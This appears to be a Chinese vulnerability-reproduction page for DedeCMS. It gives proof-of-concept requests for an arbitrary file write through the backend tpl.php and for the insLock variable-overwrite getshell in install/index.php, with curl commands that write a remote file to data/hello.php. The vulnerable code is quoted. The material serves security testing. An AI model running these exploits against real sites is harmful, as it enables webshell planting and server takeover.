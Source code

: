 ## 后台 tpl.php 任意文件写入

测试镜像

* src/dedecms/20180109/

参考链接

* [DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)

Poc

```
手动访问
/dede/tpl.php?filename=moonsec.lib.php&action=savetagfile&content=<?php%20phpinfo();?>&token=FORM_TOKEN

即可生成
include/taglib/moonsec.lib.php
```

## insLock 变量覆盖 - 远程 getshell 漏洞

测试镜像

* src/dedecms/20140313/

影响版本

* <= 5.7 SP1 20140313

参考连接

* [Dedecms远程写文件漏洞分析](http://blog.nsfocus.net/dedecms-write-file-vuln/)

Poc

```
# 清空 config_update.php
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php'
&nbsp; <font color="red">[×]</font> 远程获取失败

# 覆盖 updateHost、install_demo_name，实现远程文件下载
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/hello.php&updateHost=http://127.0.0.1/'
&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)

# 测试 shell
curl http://127.0.0.1/data/hello.php
```

关键代码

```
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	
	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
```

